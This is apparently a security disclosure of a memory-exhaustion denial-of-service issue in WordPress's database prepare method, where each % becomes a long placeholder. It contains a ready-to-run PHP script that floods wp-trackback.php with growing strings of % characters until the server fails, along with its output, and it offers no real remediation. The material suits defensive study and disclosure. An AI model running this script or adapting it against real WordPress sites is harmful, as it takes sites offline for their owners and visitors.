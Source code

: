 # WordPress DB prepare method DOS / memory limit

Few years back WP "fixed" prepare method of its DB class and even today it remains one of the failure points for ~40% of the web. What is the bug? Simple, because sprintf usage every % sign is replaced with placeholder 
```
			$algo = function_exists( 'hash' ) ? 'sha256' : 'sha1';
			// Old WP installs may not have AUTH_SALT defined.
			$salt = defined( 'AUTH_SALT' ) && AUTH_SALT ? AUTH_SALT : (string) rand();

			$placeholder = '{' . hash_hmac( $algo, uniqid( $salt, true ), $salt ) . '}';
```
which in most of the setups swaps 1 character % with 66 in memory. Easy DoS, for every routine that calls $wpdb->prepare or esc_sql :)

## Eli5 PoC

This attack would work on every $wpdb->prepare usage like comments or any another data manipulation around WP, but this sample is for wp-trackback.php
```
//post id with turned on trackback
$post_id = 3;
//trackback url 
$target_url = "https://wp.local/wp-trackback.php/".$post_id;
//number of % bytes to increase on every step
$payload_step_increase = 100000;

$ch = curl_init();
$is_500 = false;
$cnt = 0;
$payload = "";

while ( ! $is_500 ){
    
    $payload = str_repeat("%", ( ( $cnt + 1 ) * $payload_step_increase ) );
    
    curl_setopt( $ch, CURLOPT_URL, $target_url );
    curl_setopt( $ch, CURLOPT_RETURNTRANSFER, true );
    curl_setopt( $ch, CURLOPT_SSL_VERIFYPEER, false );
    curl_setopt( $ch, CURLOPT_HEADER, true ); 
    curl_setopt( $ch, CURLOPT_POST, 1 );
    curl_setopt( $ch, CURLOPT_POSTFIELDS, "url=".$payload."&title=title&blog_name=blog_name" );
    
    $response = curl_exec( $ch );
    
    if ( ! curl_errno( $ch ) ){
        $response_http_code = curl_getinfo( $ch, CURLINFO_HTTP_CODE );
        if ( $response_http_code >= 500 ){
            echo ($cnt+1)." * ".$payload_step_increase." % caused 500+ on ".$target_url."\n";
            echo "Check content of headers-body-500.txt for response data\n";
            @file_put_contents( "headers-body-500.txt", $response );
            $is_500 = true;
        }else{
            echo ($cnt+1)." step returned ".$response_http_code." http response code\n";
        }
    }
    
    $cnt++;
    curl_reset( $ch );

}

curl_close( $ch );

``` 

on my default setup memory_limit was reached on 5th try

```
1 step returned 409 http response code
2 step returned 409 http response code
3 step returned 409 http response code
4 step returned 409 http response code
5 * 100000 % caused 500+ on http://wp.local/wp-trackback.php/3
Check content of headers-body-500.txt for response data
```
where memory_limit is 128M and post_max_size is 8M.

## Few facts

- if only one prepare / esc_sql occurs during code execution memory_limit should be bigger than 66 * post_max_size
- there are cases for popular plugins and wp core where user/visitor input would cause permanent http 500 status code in the wp admin

## Remediation

- Good luck :)
 


